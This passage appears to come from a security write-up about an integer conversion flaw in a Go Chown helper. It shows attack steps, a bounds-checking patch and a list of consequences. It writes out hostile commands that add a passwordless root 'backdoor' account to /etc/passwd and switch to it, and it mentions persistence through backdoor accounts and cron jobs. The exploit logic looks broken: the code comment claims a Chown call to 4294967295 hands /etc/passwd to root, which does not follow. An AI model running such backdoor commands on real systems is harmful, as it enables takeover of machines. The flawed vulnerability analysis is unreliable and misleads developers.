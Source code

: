2. **Ownership Manipulation**:
   ```go
   // Change sensitive file ownership to root
   opsHelper.Chown("/etc/passwd", 4294967295, 4294967295)
   ```

3. **Privilege Escalation**:
   ```bash
   # Now attacker can modify /etc/passwd
   echo "backdoor::0:0::/root:/bin/bash" >> /etc/passwd
   su backdoor  # Becomes root
   ```

### Patch Analysis

**Original Vulnerable Code**:
```go
func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    return os.Chown(name, int(uid), int(gid))  // VULNERABLE
}
```

**Patched Version**:
```go
import "math"

func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    // SECURITY FIX: Bounds checking
    if uid > math.MaxInt32 || gid > math.MaxInt32 {
        return fmt.Errorf("UID or GID value too large: %d, %d", uid, gid)
    }
    return os.Chown(name, int(uid), int(gid))
}
```

**Security Improvements**:
1. Explicit bounds checking before conversion
2. Error handling for invalid values
3. Prevention of integer wraparound

## Technical Consequences
1. **File Ownership Manipulation**:
   - Sensitive files assigned to unauthorized users
   - Permission bypass for protected resources

2. **Privilege Escalation**:
   ```go
   // Gain root access through /etc/passwd modification
   opsHelper.Chown("/etc/passwd", 4294967295, 4294967295)
   ```

3. **Persistence Mechanisms**:
   - Backdoor user accounts
   - Modified system binaries
   - Cron jobs with elevated privileges
